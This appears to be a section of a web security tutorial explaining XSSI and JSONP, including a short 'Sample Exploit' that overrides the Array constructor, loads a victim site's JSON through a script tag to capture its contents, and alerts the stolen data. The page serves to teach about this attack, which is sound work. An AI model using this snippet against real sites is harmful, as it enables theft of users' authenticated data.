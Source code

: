 # 8.1 XSSI Overview

A JSON vulnerability allows third party website to turn your JSON resource URL into JSONP request under some conditions.
Exposed when a GET request is made to retrieve JSON information as an array. Combined to a CSRF attack.

## What is JSONP ?

JSONP means JSON with Padding or Prefix, is a technique created before the CORS which allows GET requests to bypass
same-origin policy.
The same-origin policy does not prevent execution of external `<script>` tags.
The JSON is wrapped inside a function which allows the data to be loaded in a `<script>` element as an ordinary JavaScript.

``` typescript
callbackFunction({
  payload: {
    username: 'ben',
    session_id: '123'
  }
})

```

``` typescript
<script>
  function callbackFunction(userData) {
      console.log(userData.payload.username);
   }
</script>
<script src="http://api.example.com/userdata.jsonp?callback=callbackFunction"></script>
```

## How XSSI works ?

1. Cross-domain HTTP requests is possible via the `src` attribute of `<script>` tag
1. Your browser sends your credential automatically
1. Returning a JSON array is valid as the source for a JavaScript `<script>` tag
1. JavaScript allows us to redefine the Array constructor

Sample Exploit:

``` typescript
<script type="text/javascript">
    var secrets;
    Array = function() {
        secrets = this;
    };
</script>

<script src="http://victim.com/demos/secret-info.json" type="text/javascript"></script>

<script type="text/javascript">
    var yourData = '';
    var i = -1;
    while(secrets[++i]) {
        yourData += secrets[i] + ' ';
    }
    alert('I stole your data, I can exploit it / send it to another server : ' + yourData);
</script>
```

